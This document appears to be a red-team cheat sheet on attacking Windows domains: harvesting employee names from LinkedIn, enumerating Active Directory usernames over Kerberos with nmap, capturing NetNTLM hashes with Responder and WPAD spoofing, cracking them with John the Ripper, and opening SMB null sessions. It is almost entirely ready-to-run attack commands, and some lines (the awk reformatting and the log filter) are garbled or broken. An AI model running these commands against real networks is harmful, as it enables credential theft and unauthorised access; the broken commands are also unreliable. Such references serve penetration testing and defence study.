 # Red-Team and Infrastructure

## Domain User Enumeration

### Grab employee names from Linkedin

`theharvester -d blah.com -l 1000 -b linkedin`

### Change format to b.lah

`awk '=FS tolower(substr(,1,1)$NF)' linkedin-user-list.txt | awk '{ print   }'`

### Check usernames against AD:

Handy if you have generated a list from linkedin or a list of usernames.

`nmap -p 88 1.1.1.1 --script krb5-enum-users --script-args krb5-enum-users.realm="DOMAIN"`

username list is located at `/usr/local/share/nmap/nselib/data/usernames.lst` in Kali

## Network Attacks 

### Responder

Grab NetNTLM hashes off the network

Without wpad:

`responder -I eth0`

With wpad:

`responder -I eth0 --wpad -b -f -F`

Filter logs from logs folder and remove machine accounts:

`sort -m *.txt | uniq -d | awk '!/\$/'

Cracking with John:

`john SMB-NTLMv2-Client-172.20.22.217.txt --wordlist=/root/passwords.txt`

Use hashcat on a more powerful box. This is only for easy wins.

## Null sessions

Still works on infra that was upgraded.

`net use \\IP_ADDRESS\ipc$ "" /user:""`

